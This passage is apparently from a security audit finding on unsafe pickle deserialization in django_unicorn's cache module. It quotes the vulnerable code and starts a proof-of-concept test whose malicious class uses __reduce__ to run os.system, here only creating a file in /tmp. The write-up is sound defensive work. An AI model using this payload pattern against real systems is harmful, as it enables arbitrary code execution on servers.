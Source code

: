 - **Source code analysis:**
    - File: `django_unicorn/cacher.py`
    ```python
    import pickle # Unsafe serialization library
    import logging
    ...
    from django.core.cache import cache
    ...

    def cache_component(component, component_cache_key):
        """
        Caches the component to the Django cache backend.
        """
        try:
            pickled = pickle.dumps(component) # Serialization with pickle
            cache.set(component_cache_key, pickled)
        except Exception as e:
            raise UnicornCacheError(...)

    def restore_from_cache(component_cache_key):
        """
        Restores the component from the Django cache backend.
        """
        pickled_component = cache.get(component_cache_key, None, cache_alias=get_cache_alias())

        if pickled_component:
            try:
                component = pickle.loads(pickled_component) # Deserialization with pickle - CRITICAL VULNERABILITY
                ...
                return component
            except Exception as e:
                logger.error(...)
                return None
        return None
    ```
    - `cache_component` function serializes component objects using `pickle.dumps` before storing them in Django's cache backend.
    - `restore_from_cache` function deserializes cached data using `pickle.loads`.
    - **The use of `pickle.loads` in `restore_from_cache` is the direct source of the RCE vulnerability.** Deserializing untrusted data with `pickle.loads` is known to be insecure and can lead to arbitrary code execution.

- **Security test case:**
    1. **Vulnerable Cache Setup (Simulated Cache Poisoning):** For testing purposes, directly interact with Django's cache API to insert a malicious payload. In a real attack, an attacker would need to find a way to write to the cache backend.
    2. **Craft Malicious Payload:** Create a Python script to generate a malicious pickled payload. This payload will execute code when deserialized.
    ```python
    import os
    import pickle

    class MaliciousComponent:
        def __reduce__(self):
            return (os.system, ('touch /tmp/unicorn_rce_poc',)) # Payload: Create file /tmp/unicorn_rce_poc
